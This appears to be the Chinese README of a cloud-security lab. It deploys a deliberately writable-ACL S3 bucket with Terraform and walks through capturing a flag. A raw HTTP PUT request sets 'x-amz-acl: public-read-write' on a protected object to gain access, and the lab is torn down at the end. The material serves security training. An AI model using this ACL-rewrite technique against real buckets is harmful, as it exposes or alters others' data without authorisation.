 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本

虽然你在实际环境中可能不会遇到，玩的愉快

## 部署环境

```bash
cd /TerraformGoat/Aws/object_acl_writable/
```

![image-20220426152245856](../../../images/image-20220426152245856.png)

```bash
terraform init
```

![image-20220426152354009](../../../images/image-20220426152354009.png)

```bash
terraform apply
```

![image-20220426152417710](../../../images/image-20220426152417710.png)

![image-20220426152428214](../../../images/image-20220426152428214.png)

输入yes之后，会自动的快速构建场景

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

我们看到的文件的列表，尝试访问index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

禁止访问，但是我们可以通过PUT方法，在请求头中添加`x-amz-acl`中添加`public-read-write`来修改这个对象是否可以读或写

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

然后我们再获取一下这个对象的ACL，会发现，现在所有用户都可以对其进行读写

![image-20220426172506589](../../../images/image-20220426172506589.png)

随后在访问这个index.html，成功获取flag

![image-20220426172534934](../../../images/image-20220426172534934.png)

## 销毁挑战

```bash
terraform destroy
```

![image-20220426173539820](../../../images/image-20220426173539820.png)

输入yes即可

![image-20220426173554665](../../../images/image-20220426173554665.png)
